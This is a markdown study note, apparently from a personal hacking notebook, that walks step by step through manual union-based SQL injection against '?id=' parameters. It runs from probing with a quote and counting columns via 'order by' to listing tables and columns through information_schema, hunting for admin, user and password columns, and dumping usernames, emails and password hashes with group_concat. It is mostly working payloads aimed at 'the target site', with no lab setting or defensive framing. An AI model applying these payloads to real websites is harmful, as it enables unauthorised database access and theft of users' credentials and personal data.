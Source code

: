 # <mark style="background: #FFB86CA6;">Attention :</mark> 
## All The Command Code We Learn Below, Must Be Typed <mark style="background: #FF5582A6;">After ?Id Number,</mark> In The URL Of The Target Site.

# <mark style="background: #FFB86CA6;">Steps :</mark> 
## First Step :

- <mark style="background: #FFB86CA6;">Putting a single quote ( ' ) in the end of target site</mark> 
	if there is a change in the site or we encountered an error, There is probably a vulnerability in the site.

## Second Step :

- <mark style="background: #FFB86CA6;">order by 9999--</mark> 
	if with above command code, the site could not be loaded but with below command code :
- <mark style="background: #FFB86CA6;">order by 1--</mark> 
	the site has been loaded, we go to the third step

### An important <mark style="background: #FF5582A6;">point 1</mark> :

if with second step code the site has been loaded, so we do this :
- <mark style="background: #FFB86CA6;"><mark style="background: #FF5582A6;">'</mark> order by 9999--<mark style="background: #FF5582A6;">+</mark> </mark> 
	at this stage, with above code, the site should not be loaded or we encountered an error but with below code, the site should be loaded without any error :
- <mark style="background: #FFB86CA6;"><mark style="background: #FF5582A6;">'</mark> order by 1--<mark style="background: #FF5582A6;">+</mark> </mark>

### An important <mark style="background: #FF5582A6;">point 2</mark> :

if for the target we use <mark style="background: #FF5582A6;">' +</mark> at the beginning and end of site, so it's <mark style="background: #FF5582A6;">necessary</mark> to be untill the last step.
if with <mark style="background: #FF5582A6;">' +</mark> at the beginning and end of site, the site is loaded again :
<mark style="background: #FF5582A6;">the site hasn't any sql injection vulnerability</mark> 

### An important <mark style="background: #FF5582A6;">point 3</mark> :

before third step, we must know that how many columns does the target site have, for this we must subtract from number of (order by 9999-- or 'order by 9999--) to get the actual number of columns.
how do we know ?
when we reached the first number that the target site was loaded, and with the number
after that, we encountered an error or a change in the appearance of the site compared to (order by 1-- or 'order by 1--), <mark style="background: #FF5582A6;">we understand the number of columns.</mark> 

## Third Step :

- <mark style="background: #FFB86CA6;">union select the number of columns--</mark> 
	for example, in a site where we have 9 columns :
		union select 1,2,3,4,5,6,7,8,9-- 
with this code we should see the column numbers on the desired page.

### <mark style="background: #FF5582A6;">Point 1 :</mark> 

if we didn't see the column numbers (in page or source), we have to do this : 
1. (-) behind the ?id number
	for example : ?id=46 -------> ?id=-46
2. (and 0) after the ?id number
3. (dir 0) after the ?id number
4. (where 1 like 0) after the ?id number
5. (and 1 like 0) after the ?id number
6. 9999 instead of ?id number
7. null instead of ?id number
8. put the ?id number inside a parenthesis
	for example : ?id=46 -------> ?id=(46)

### <mark style="background: #FF5582A6;">Point 2 :</mark> 

if the number of columns was too large to write :
	HackBar Quantum ---> sql part ---> union select statement --->
	we write the number of columns we wants ---> and Quantum give us
	the desired code with union select.

## Fourth Step :

<mark style="background: #FF5582A6;">this step is optional</mark> 
for example, in a site where we have 9 columns :
- <mark style="background: #FFB86CA6;">union select 1,2,3,4,5,database(),7,8,9-- </mark> 
- <mark style="background: #FFB86CA6;">union select 1,2,3,4,5,version(),7,8,9--</mark> 
instead of (version()), we can use the following words :
1. @@version
2. @@global.version
3. @@innodb_version

## The Fifth :

- <mark style="background: #FFB86CA6;">group_concat(table_name) from information_schema.tables where table_schema=database()--</mark> 
	
	for example, in a site where we have 9 columns :
- union select 1,2,3,4,5,group_concat(table_name),7,8,9 from information_schema.tables where table_schema=database()--
### <mark style="background: #FF5582A6;">Point :</mark> 
(br in '<>') beside (table_name,) for vertical display of columns.
if a site with (br in '<>') give us an error, we use it's hex expression without quotation : <mark style="background: #FF5582A6;">0x3c62723e</mark> 

## The Sixth Step :

<mark style="background: #FF5582A6;">we are looking for important table with the sixth step code.</mark> 
table that contain the following words :
1. admin
2. user
3. login
4. member
5. account
6. setting
7. panel
8. crm
9. cms
10. db
11. server
12. host
13. columns_priv

### <mark style="background: #FF5582A6;">Point :</mark> 
if we didn't find the important table :
- <mark style="background: #FFB86CA6;">union select group_concat(schema_name) from information_schema.schemata--</mark> 
with above code we understand the name of all the site's databases.
if the target site had only one database and that database didn't have an important table then the target <mark style="background: #FF5582A6;">doesn't have an admin panel.</mark> 
in multi-database sites, we search each database to find the important tables.

## The Seventh Step :

after finding the important table, we find the content of columns of that table with following code :

- <mark style="background: #FFB86CA6;">group_concat(column_name) from information_schema.columns where table_name='important table'--</mark> 

	for example, in a site where we have 9 columns :
	
- union select 1,2,3,4,5,group_concat(<mark style="background: #FF5582A6;">column</mark> _name),7,8,9 from information_schema<mark style="background: #FF5582A6;">.columns</mark> where table<mark style="background: #FF5582A6;">_name</mark> =<mark style="background: #FF5582A6;">'important table'</mark> --

<mark style="background: #FF5582A6;">and we are looking for important columns.</mark> 
columns that contain the following words :
1. user
2. username
3. password
4. pass
5. usr
6. pwd
7. email

### <mark style="background: #FF5582A6;">Point :</mark> 
the target site maybe sensitive to quotation, in such cases we should to hex the important table with HackBar For Quantum and put the hex expression in our code without quotation.

## The Eighth Step :

- <mark style="background: #FFB86CA6;">union select 1,2,3,4,5,group_concat(username,email,password),7,8,9 from important table--</mark> 

### <mark style="background: #FF5582A6;">point 1:</mark> 
at this step, we type the important table without quotation and also we can't use the hex expression.

### <mark style="background: #FF5582A6;">Point 2 :</mark> 
to separate username, email and password from each other on the desired target page :
we use (<mark style="background: #FF5582A6;">0x3a3a</mark>) between username, email and password :
(username,0x3a3a,email,0x3a3a,password)

## Final Step :

we see the username, email and password on the desired page, of course, the password maybe hashed. ([[01-Intro]])










